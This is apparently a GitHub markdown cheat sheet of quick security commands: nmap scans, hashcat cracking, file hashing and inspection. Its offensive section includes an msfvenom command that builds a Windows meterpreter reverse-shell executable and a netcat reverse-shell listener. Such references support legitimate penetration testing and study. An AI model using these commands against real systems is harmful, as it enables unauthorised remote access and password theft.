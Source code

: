 # 🔫Quick Reference Commands

## 🛡️ Offensive Security Commands
### Nmap default port scan
```bash
nmap -p- -O -v -sV -sC <IP ADDRESS>
```
-- Default mass port scan with OS and Service identification 

### Nmap Aggressive port scan
```bash
nmap -A -v <IP ADDRESS>
```
-- Aggressive Port Scan

### Retrieve a file from an FTP server
```bash
mget *
```
-- Full all files from a directory from an FTP server

### Crack a Password with Hashcat 
```bash
hashcat -O -a 0 -m <HASH Type> <FILE HASH>:<SALT>
```
-- This command runs Hashcat in optimized mode (`-O`) to crack a hash (`<FILE HASH>`) that uses a salt (`<SALT>`), using a dictionary attack (`-a 0`) against a specific hash type 

### Create Reverse Shell Malware
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL HOST> LPORT=4444 -f exe > shell.exe
```
-- This command will utilise the MSF venom package of the Metasploit framework and generate a revers shell listening on port 4444

### Host a Python Webserver
```bash
python3 -m http.server 8000
``` 
-- This command will host a minimised webserver on port 8000 locatable at the local IP of the endpoint 

### Create a Network Share
```bash
net share <NAME OF SHARE>=<PATH TO DIRECTORY OF SHARE>
```
-- This command will create a sharable drive on the system that allows other endpoints on the network to access

### Create a Quick Reverse Shell Listener
```bash
nc -nvlp 3333
```
-- This command will issue a net cat listener on port `3333`  without resolving DNS and providing a verbose output

### Create a Quick Reverse Shell 
- Utilising the resource available at [revshells.com](https://revshells.com) can provide multiple ways to generate a reverse shell.

## 📝File Information

### Retrieve basic file information
```bash
file <FILE NAME>
```
-- This will provide a high level overview of a given file specifying file type and offset

### Provide a hexdump of a file
```bash
xxd <FILE NAME>
```
-- This will provide a hexdump of a given file

## \# File Hashing
### Retrieve a file hash (linux)
```bash
<FILE HASH TYPE>sum <FILE NAME>
```

### Retrieve a file hash (Powershell)
> Default is SHA256 e.g. no provided `-alg` statement
```bash
get-filehash <FILE NAME> -alg <FILE HASH TYPE>
```

### Retrieve a file hash (Win)
```bash
certutil -hashfile <FILE NAME> <FILEHASHTYPE>
```

## Other

### Get Architecture Information
```bash
wmic os get osarchitecture
```
-- This command will identify what architecture the system is running (e.g. 32-bit/64-bit)

### Command Line Base64 Decode
```bash
echo "<BASE64 STRING>" | base64 -d
```
-- This command will decode any provided base 64 